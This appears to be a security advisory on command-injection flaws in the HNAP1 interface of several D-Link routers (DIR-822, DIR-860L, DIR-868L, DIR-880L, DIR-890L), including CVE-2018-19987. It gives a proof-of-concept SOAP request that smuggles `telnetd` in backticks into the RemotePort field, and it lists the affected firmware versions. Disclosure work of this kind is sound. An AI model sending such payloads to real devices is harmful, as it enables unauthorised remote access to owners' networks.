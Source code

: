 A vulnerable /HNAP1/SetRouterSettings XML message could have shell metacharacters in the `RemotePort` element such as the ``` `telnetd` ``` string.

### PoC xml

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetRouterSettings xmlns="http://purenetworks.com/HNAP1/">
<ManageRemote>default</ManageRemote>
<ManageWireless>default</ManageWireless>
<RemoteSSL>default</RemoteSSL>
<RemotePort>`telnetd`</RemotePort>
<DomainName>default</DomainName>
<WiredQoS>default</WiredQoS>
</SetRouterSettings>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19987 - /HNAP1/SetAccessPointMode

**Firmware version**:
DIR-822_REVB - 202KRb06,
DIR-822_REVC - 3.10B06,
DIR-860L_REVB - 2.03.B03,
DIR-868L_REVB - 2.05B02,
DIR-880L_REVA - 1.20B01_01_i3se_BETA,
DIR-890L_REVA - 1.21B02_BETA

**Hardware Link**:
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822,
https://support.dlink.com/ProductInfo.aspx?m=DIR-822-US,
https://support.dlink.com/ProductInfo.aspx?m=DIR-860L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-868L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-880L,
https://support.dlink.com/ProductInfo.aspx?m=DIR-890L%2FR

### The detail of vulnerability ###

In the `/HNAP1/SetAccessPointMode` message, the `IsAccessPoint` element is vulnerable, and the vulnerability affects D-Link DIR-822 Rev.B 202KRb06, DIR-822 Rev.C 3.10B06, DIR-860L Rev.B 2.03.B03, DIR-868L Rev.B 2.05B02, DIR-880L Rev.A 1.20B01_01_i3se_BETA, and DIR-890L Rev.A 1.21B02_BETA devices.

In the `SetAccessPointMode.php` source code, the IsAccessPoint element is saved in the `$ShellPath` script file without any regex checking.
